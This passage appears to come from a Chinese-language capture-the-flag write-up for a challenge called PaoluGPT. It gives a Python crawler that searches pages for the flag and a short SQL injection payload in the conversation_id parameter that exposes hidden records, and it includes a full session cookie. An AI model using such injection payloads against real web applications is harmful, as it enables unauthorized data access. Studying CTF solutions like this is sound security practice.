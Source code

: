 ```javascript
                inputs.push('<')
            } else {
                inputs.push('>')
            }
          }
          submit(inputs)
        })
        .catch(error => {
          console.log(error)
        })
      });
}
```

### PaoluGPT

第一问，写个爬虫就好了。

```python
import requests
from bs4 import BeautifulSoup

url = 'https://chal01-vfutvlvc.hack-challenge.lug.ustc.edu.cn:8443'
headers = {
    'Cookie': 'session=eyJ0b2tlbiI6IjEwNzc6TUVVQ0lBSGhCYVFZUWlqQXVsRERmd2luZ1piV1RTb0g5UFJWS0xldlZhODNRTmhrQWlFQTFpZUpBM1UvUGpkeE9SeTEwbXJoUVhkRm9NcVcvWmYvWFVpbFBLYmVkYlk9In0.ZyXeYg.kWT_4WjIB96E39meiLRcwXM1_q4'
}

r = requests.get(url + '/list', headers=headers)
soup = BeautifulSoup(r.text, 'html.parser')

i = 0
for ul in soup.select('ul'):
    for li in ul.select('li'):
        r = requests.get(url + li.a['href'], headers=headers)
        if 'flag{' in r.text:
            print(r.text)
            break
```

第二问，简单的SQL注入。

```python
import requests

url = 'https://chal01-vfutvlvc.hack-challenge.lug.ustc.edu.cn:8443'
headers = {
    'Cookie': 'session=eyJ0b2tlbiI6IjEwNzc6TUVVQ0lBSGhCYVFZUWlqQXVsRERmd2luZ1piV1RTb0g5UFJWS0xldlZhODNRTmhrQWlFQTFpZUpBM1UvUGpkeE9SeTEwbXJoUVhkRm9NcVcvWmYvWFVpbFBLYmVkYlk9In0.ZyXeYg.kWT_4WjIB96E39meiLRcwXM1_q4'
}

payload = "/view?conversation_id=' or shown = false; --"
r = requests.get(url + payload, headers=headers)
print(r.text)
```
